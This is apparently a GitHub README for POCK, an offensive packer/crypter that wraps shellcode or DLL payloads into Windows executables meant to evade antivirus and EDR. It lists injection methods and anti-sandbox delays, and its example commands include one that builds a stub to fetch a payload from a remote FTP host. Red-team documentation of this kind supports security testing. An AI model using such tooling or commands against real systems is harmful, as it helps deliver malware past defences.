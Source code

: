 # POCK - Polymorphic Obfuscation and Crypter Kit
  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

---

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```

---

**Required Arguments**

**-i, --input**  
Path to raw shellcode (.bin) or DLL (.dll) file

**-o, --output**  
Name of the compiled output executable

**-e, --encryption**  
Encryption method to use: aes or xor

**-k, --key**  
Key to encrypt the payload

**-t, --type**  
Payload type: shellcode or dll

---

**Optional Arguments**

**--inject <method>**  
Injection method: apc, earlybird, fiber

**--url <ftp_url>**  
FTP URL for remote payload staging

**--ftp-user <username>**  
FTP username for authentication

**--ftp-pass <password>**  
FTP password for authentication

**--entropy**  
Add entropy-based execution delay

**--fibonacci**  
Add Fibonacci loop delay

**--factorial**  
Add factorial computation delay

**--sleep <seconds>**  
Sleep for specified seconds before executing

**--hide**  
Compile stub as a hidden (GUI) executable instead of console

---

**## Example Commands**

```bash
# Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

# Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide

